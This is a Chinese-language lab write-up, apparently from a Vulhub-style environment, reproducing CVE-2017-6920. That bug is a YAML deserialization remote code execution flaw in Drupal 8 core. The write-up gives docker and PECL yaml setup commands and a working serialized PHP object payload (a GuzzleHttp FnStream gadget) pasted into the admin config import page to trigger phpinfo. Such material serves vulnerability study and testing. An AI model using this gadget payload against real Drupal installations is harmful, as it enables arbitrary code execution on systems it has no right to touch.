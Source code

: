 （CVE-2017-6920）Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞
=================================================================

一、漏洞简介
------------

Drupal是Drupal社区所维护的一套用PHP语言开发的免费、开源的内容管理系统。Drupal7.56之前的7.x版本和8.3.4之前的8.x版本中存在远程代码执行漏洞。远程攻击者可利用该漏洞在受影响应用程序上下文中执行任意代码或造成拒绝服务。

二、漏洞影响
------------

Drupal Drupal 8.3.3 Drupal Drupal 8.3.2 Drupal Drupal 8.3.1 Drupal
Drupal 8.2.8 Drupal Drupal 8.2.7 Drupal Drupal 8.2.3 Drupal Drupal 8.2.2

三、复现过程
------------

### 漏洞环境

执行如下命令启动 drupal 8.3.0 的环境：

    docker-compose up -d

环境启动后，访问 `http://your-ip:8080/`
将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

-   先安装 `yaml` 扩展

```{=html}
<!-- -->
```
    # 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
    cat > sources.list << EOF
    deb http://mirrors.163.com/debian/ jessie main non-free contrib
    deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
    deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
    deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
    deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
    EOF
    # 安装依赖
    apt update
    apt-get -y install gcc make autoconf libc-dev pkg-config
    apt-get -y install libyaml-dev
    # 安装yaml扩展
    pecl install yaml
    docker-php-ext-enable yaml.so
    # 启用 yaml.decode_php 否则无法复现成功
    echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
    # 退出容器
    exit
    # 重启容器，CONTAINER换成自己的容器ID
    docker restart CONTAINER

-   1.登录一个管理员账号

-   2.访问
    `http://127.0.0.1:8080/admin/config/development/configuration/single/import`

-   3.如下图所示，`Configuration type` 选择
    `Simple configuration`，`Configuration name`
    任意填写，`Paste your configuration here` 中填写PoC如下：

```{=html}
<!-- -->
```
    !php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"

![](./resource/(CVE-2017-6920)DrupalCore8PECLYAML反序列化任意代码执行漏洞/media/rId26.png)

-   4.点击 `Import` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面

![](./resource/(CVE-2017-6920)DrupalCore8PECLYAML反序列化任意代码执行漏洞/media/rId27.png)

-   Tips：

    -   虽然官方 CPE 信息显示从 `8.0.0` 开始就有该漏洞，但是在
        `drupal:8.0.0` 容器内并没有复现成功，相同操作在 `drupal:8.3.0`
        则可以复现成功，故基础镜像选择`drupal:8.3.0`

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2017-6920/
